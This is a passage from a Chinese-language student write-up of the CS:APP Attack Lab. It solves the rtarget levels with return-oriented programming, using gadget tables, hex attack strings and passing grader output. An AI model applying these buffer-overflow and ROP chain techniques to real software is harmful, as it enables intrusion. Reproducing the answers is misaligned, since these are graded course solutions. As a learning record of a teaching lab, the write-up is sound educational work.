            result  1:PASS:0xffffffff:ctarget:3:35 39 62 39 39 37 66 61 48 C7 C7 78 DC 61 55 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 80 DC 61 55 00 00 00 00 FA 18 40 00 00 00 00 00

对应的函数调用如图所示：

第二部分：返回导向编程攻击
^^^^^^^^^^^^^^^^^^^^^^^^

在第二部分中，相比于 ``ctarget``， 我们使用代码注入的方式去攻击 ``rtarget`` 的难度剧增，原因有二：

* ``rtarget`` 使用了栈随机化的技术，即每次运行栈的地址都不相同，导致很难确定注入代码应存放的位置
* ``rtarget`` 将栈上的内存标记为不可执行（nonexecutable），也就意味着在栈上执行我们注入的攻击代码会导致段错误（segmentation fault）

接下来的两个实验，我们将使用新的攻击方式---返回导向编程攻击，来完成 ``rtarget`` 实验。 
返回导向编程攻击的方法是找寻当前程序中符合模式的字节流，然后通过组合排列这些字节流来构建相应的指令，完成攻击。这些字节流称之为攻击套件（gadget）。前面提到的模式一般指一条或多条指令后跟着一条 ``ret`` 指令，故称之为返回导向编程。
更详细的解释和说明可参考 `writeup <http://csapp.cs.cmu.edu/3e/attacklab.pdf>`_ 以及提及的论文。

Level 2
''''''''

**实验说明：**

实验的要求同 ``ctarget`` 的Level 2一致，只不过我们要从提供的攻击套件厂（gadget farm）找到我们能够使用的指令，攻击 ``rtarget`` 。
我们可以使用以下指令和寄存器类型， ``writeup`` 里都提供了相应的编码表格。

* movq
* popq
* ret
* nop
* %rax - %rdi

在攻击之前，我们可以用 ``objdump -d rtarget | tee rtarget.txt`` 对 ``rtarget`` 进行反汇编，并将其汇编代码保存在 ``rtarget.txt`` 中。
查看 ``rtarget.txt`` ， 可以看到在函数 ``start_farm`` 与 ``end_farm`` 中间有多个 ``setval_xxx`` 和 ``getval_xxx`` 等函数，我们将从这些函数中找到想要的攻击指令。

.. code-block:: console

    $ cat rtarget.txt
    ......
    0000000000401994 <start_farm>:
        401994:       b8 01 00 00 00          mov    $0x1,%eax
        401999:       c3                      retq

    000000000040199a <getval_142>:
        40199a:       b8 fb 78 90 90          mov    $0x909078fb,%eax
        40199f:       c3                      retq

    00000000004019a0 <addval_273>:
        4019a0:       8d 87 48 89 c7 c3       lea    -0x3c3876b8(%rdi),%eax
        4019a6:       c3                      retq
    ......
    0000000000401ab2 <end_farm>:
        401ab2:       b8 01 00 00 00          mov    $0x1,%eax
        401ab7:       c3                      retq
        401ab8:       90                      nop
        401ab9:       90                      nop
        401aba:       90                      nop
        401abb:       90                      nop
        401abc:       90                      nop
        401abd:       90                      nop
        401abe:       90                      nop
        401abf:       90                      nop

**攻击思路：**

在 ``ctarget`` 中的Level 2，我们通过将 ``touch2`` 执行完 ``getbuf`` 的下一条指令设置为我们在栈上注入代码的地址，来达到指令重定向以及给寄存器 ``%rdi`` 赋值为cookie的目的。
``rtarget`` 我们不能再这样做，因为其栈被设置为不可执行。那如何在重定向到 ``touch2`` 函数前将cookie值传给 ``%rdi`` 呢？
直接的方法是通过 ``popq`` 指令将栈上构建的cookie值弹出栈到寄存器中，再通过 ``mov`` 操作完成寄存器之间的赋值。
逐个查看 ``start_farm`` ~ ``end_farm`` 函数，对应在函数 ``addval_219`` 中，我们看到有字节流 ``58 90 c3`` ，其对应的汇编指令为:

.. code-block:: asm

    popq %rax
    nop
    ret

同理，在函数 ``setval_426`` 中，我们看到有字节流 ``48 89 c7 90 c3`` ，其对应的汇编指令为：

.. code-block:: asm

    movq %rax, %rdi
    nop
    ret

利用上述两个攻击套件，我们可按照如下图所示的方式构建我们的攻击字符串。

.. code-block:: console

    $ cat rtarget_lv2.txt
    00 00 00 00 00 00 00 00 /* junk */
    00 00 00 00 00 00 00 00 /* junk */
    00 00 00 00 00 00 00 00 /* junk */
    00 00 00 00 00 00 00 00 /* junk */
    00 00 00 00 00 00 00 00 /* junk */
    ab 19 40 00 00 00 00 00 /* popq %rax nop ret */
    fa 97 b9 59 00 00 00 00 /* cookie */
    c5 19 40 00 00 00 00 00 /* mov %rax, %rdi nop ret */
    ec 17 40 00 00 00 00 00 /* return to touch2 */
    $ ./hex2raw < rtarget_lv2.txt | ./rtarget -q
    Cookie: 0x59b997fa
    Type string:Touch2!: You called touch2(0x59b997fa)
    Valid solution for level 2 with target rtarget
    PASS: Would have posted the following:
            user id bovik
            course  15213-f15
            lab     attacklab
            result  1:PASS:0xffffffff:rtarget:2:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 AB 19 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 C5 19 40 00 00 00 00 00 EC 17 40 00 00 00 00 00

可以看到，我们构建的字符串攻击成功，Level 2完成！
至此，按照实验的要求，我们已经完成了95%的内容。但95%肯定不能满足，继续 ``rtarget`` Level 3的攻击！

Level 3
''''''''

**实验说明：**

同上， ``rtarget`` Level 3的要求同 ``ctarget`` 一致，即在重定向到 ``touch3`` 之前传入cookie字符串的指针参数。
不过这次我们要用返回导向编程的方式攻击。提示一共需要8组攻击套件。

**攻击思路：**

一开始看到题目，好像并没有什么特别明确的思路。 回忆 ``ctarget`` Level 3中，我们是在栈上构建的字符串中包含了cookie的字符串，并在栈上执行把cookie字符串的地址赋给 ``%rdi`` 的汇编指令。
同样，这种做法因为 ``rtarget`` 的栈不可执行而无法实现。不过既然返回导向编程攻击的方式是利用 ``start_farm`` ~ ``end_farm`` 之间的函数来构造我们的攻击套件库，我们可先根据提供的指令编码表，将所有的攻击指令套件汇总，如下表所示。

+----------------+----------+-----------------+------------------------------+
| Function name  | Address  | Encoding        | Instruction                  |
+================+==========+=================+==============================+
| addval_219     | 0x4019ab | 58 90 c3        | popq %rax nop ret            |
+----------------+----------+-----------------+------------------------------+
| setval_426     | 0x4019c5 | 48 89 c7 90 c3  | movq %rax, %rdi nop ret      |
+----------------+----------+-----------------+------------------------------+
| getval_481     | 0x4019dd | 89 c2 90 c3     | movl %eax, %edx nop ret      |
+----------------+----------+-----------------+------------------------------+
| addval_190     | 0x401a06 | 48 89 e0 c3     | movq %rsp, %rax ret          |
+----------------+----------+-----------------+------------------------------+
| addval_436     | 0x401a13 | 89 ce 90 90 c3  | movl %ecx, %esi nop nop ret  |
+----------------+----------+-----------------+------------------------------+
| addval_187     | 0x401a27 | 89 ce 38 c0 c3  | movl %ecx, %esi cmpb %al ret |
+----------------+----------+-----------------+------------------------------+
| getval_159     | 0x401a34 | 89 d1 38 c9 c3  | movl %edx, %ecx cmpb %cl ret |
+----------------+----------+-----------------+------------------------------+
| addval_487     | 0x401a42 | 89 c2 84 c0 c3  | movl %eax, %edx testb %al ret|
+----------------+----------+-----------------+------------------------------+
| getval_311     | 0x401a69 | 89 d1 08 db c3  | movl %edx, %ecx orb %bl ret  |
+----------------+----------+-----------------+------------------------------+
| addval_358     | 0x401a86 | 89 e0 90 c3     | movl %esp, %eax nop ret      |
+----------------+----------+-----------------+------------------------------+
| setval_350     | 0x401aad | 48 89 e0 90 c3  | movq %rsp, %rax nop ret      |
+----------------+----------+-----------------+------------------------------+
| add_xy         | 0x4019d6 | 48 8d 94 37 43  | lea (%rdi, %rsi, 1),%rax retq|
+----------------+----------+-----------------+------------------------------+

看到指令 ``lea (%rdi, %rsi, 1),%rax`` 的直觉是基地址加上偏移量寻址。
再倒推 ``%rdi`` 的赋值过程： ``movq %rax, %rdi`` <-- ``movq %rsp, %rax`` 或 ``popq %rax``。
同理，倒推 ``%rsi`` 的赋值过程： ``movl %ecx, %esi`` <-- ``movl %edx, %ecx`` <-- ``mov %eax, %edx`` <-- ``movq %rsp, %rax`` 或 ``popq %rax``。
由此，我们可以有一个初步的思路，即将 ``%rdi`` 设为栈的基准地址， ``%rsi`` 设为字符串到基准地址的偏移量，偏移量的地址可通过 ``popq %rax`` 弹出写入栈中的数值。
从构建 ``touch3`` 的返回地址一步步反推，得到的栈的构成图如下图所示：

按照图中的顺序构建我们的字符串并运行 ``rtarget`` ：

.. code-block:: console

    $ cat rtarget_lv3.txt
    00 00 00 00 00 00 00 00 /* junk */
    00 00 00 00 00 00 00 00 /* junk */
    00 00 00 00 00 00 00 00 /* junk */
    00 00 00 00 00 00 00 00 /* junk */
    00 00 00 00 00 00 00 00 /* junk */
    06 1a 40 00 00 00 00 00 /* movq %rsp, %rax ret */
    c5 19 40 00 00 00 00 00 /* movq %rax, %rdi ret */
    ab 19 40 00 00 00 00 00 /* popq %rax nop ret */
    48 00 00 00 00 00 00 00 /* index to string */
    42 1a 40 00 00 00 00 00 /* movl %eax, %edx testb %al ret */
    69 1a 40 00 00 00 00 00 /* movl %edx, %ecx orb %bl ret */
    27 1a 40 00 00 00 00 00 /* movl %ecx, %esi cmpb %al ret */
    d6 19 40 00 00 00 00 00 /* lea (%rdi, %rsi, 1),%rax ret */
    c5 19 40 00 00 00 00 00 /* movq %rax, %rdi nop ret */
    fa 18 40 00 00 00 00 00 /* entry for function touch3 */
    35 39 62 39 39 37 66 61  /* string 59b997fa */
    $ ./hex2raw < rtarget_lv3.txt | ./rtarget -q
    Cookie: 0x59b997fa
    Type string:Touch3!: You called touch3("59b997fa")
    Valid solution for level 3 with target rtarget
    PASS: Would have posted the following:
            user id bovik
            course  15213-f15
            lab     attacklab
            result  1:PASS:0xffffffff:rtarget:3:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 06 1A 40 00 00 00 00 00 C5 19 40 00 00 00 00 00 AB 19 40 00 00 00 00 00 48 00 00 00 00 00 00 00 42 1A 40 00 00 00 00 00 69 1A 40 00 00 00 00 00 27 1A 40 00 00 00 00 00 D6 19 40 00 00 00 00 00 C5 19 40 00 00 00 00 00 FA 18 40 00 00 00 00 00 35 39 62 39 39 37 66 61

``rtarget`` Level 3攻击成功！

0x04. 总结和评价
----------------

这个实验从开始做到完成实验报告，断断续续地花了一个多月。 ``rtarget`` Level 3第一遍做地时候“偷看到了”了别人的思路，尤其是指令 ``lea (%rdi, %rsi, 1),%rax`` 的关键作用。
总的来说，这个实验帮助我深入地了解了缓冲区溢出攻击的原理和应用，浅浅地体会了一把黑客的感觉:)

